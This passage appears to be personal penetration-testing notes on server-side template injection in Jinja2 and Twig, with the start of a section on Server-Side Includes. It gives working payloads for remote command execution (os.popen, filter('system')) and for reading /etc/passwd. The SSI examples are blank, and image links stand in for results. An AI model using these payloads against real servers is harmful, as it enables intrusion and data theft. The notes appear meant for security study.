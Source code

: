 >
>###### Remote Code Execution
>```python
>{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }} # python
>```
>>[!code]- Result
>>![[Images/Pasted image 20250715090028.png]]

>[!code]- Exploiting SSTI (Twig)
>###### Information Disclosure
>```python
>{{ \_self }} # (without the backslash) get info about current template
>```
>>[!code]- Example
>>![[Images/Pasted image 20250717062827.png]]
>
>###### Local File Inclusion
>Twig doesn't directly have an internal function to read files, but the PHP web framework Symfony does due to it defining additional Twig filters.
>```python
>{{ "/etc/passwd"|file_excerpt(1,-1) }}
>```
>>[!code]- Example
>>![[Images/Pasted image 20250717063046.png]]
>
>###### Remote Code Execution
>```python
>{{ ['id'] | filter('system') }} # use PHP's built-in system function
>```
>>[!code]- Example
>>![[Images/Pasted image 20250717063252.png]]
### SSI (Server-Side Includes)

>[!info]- Information
>###### Background
>SSI is a web technology to create dynamic content on HTML pages. The use of SSI can often be inferred from the file extensions (`.shtml`, .`shtm`, `stm`). But web servers can be configured to support SSI directives in arbitrary file extensions.
>
>###### SSI Directives
>SSI uses directives to dynamically generate content to a static HTML page. These directives consist of:
>- name (the directives name)
>- parameter name (one or more parameters)
>- value (one or more parameter values)
>  
>```html
># General directive format
>
>
># Examples
>
># prints the environmental variables
>
>
># changes the SSI configuration, for example, changing the default error message
>
>
># prints the value of any variable
>
>
># executes the command in the cmd parameter
>
>